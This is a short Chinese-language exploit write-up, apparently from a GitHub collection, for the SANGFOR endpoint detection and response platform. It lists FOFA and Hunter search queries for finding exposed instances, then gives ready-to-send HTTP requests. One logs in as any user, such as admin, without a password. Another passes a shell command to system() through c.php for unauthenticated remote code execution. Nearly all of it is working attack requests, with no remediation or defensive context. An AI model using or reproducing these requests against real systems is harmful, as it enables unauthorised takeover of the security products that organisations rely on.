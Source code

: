 ## SANGFOR终端检测响应平台 - 任意用户免密登录,前台RCE

## FOFA语法
```
title="SANGFOR终端检测响应平台"
icon_hash="1307354852"
```
##  鹰图搜索
```
web.title="SANGFOR终端检测响应平台"
web.icon=="68e28d49856759ddeb91b6be3d6f7e42"
```

## 漏洞复现
路由后拼接/ui/login.php?user={{需要登录的用户名}}

这边以admin权限用户为例
```
GET /ui/login.php?user=admin HTTP/1.1

Host: {{Hostname}}
```

## 前台RCE
```
GET /tool/log/c.php?strip_slashes=system&host=id HTTP/1.1

Host: {{Hostname}}
```
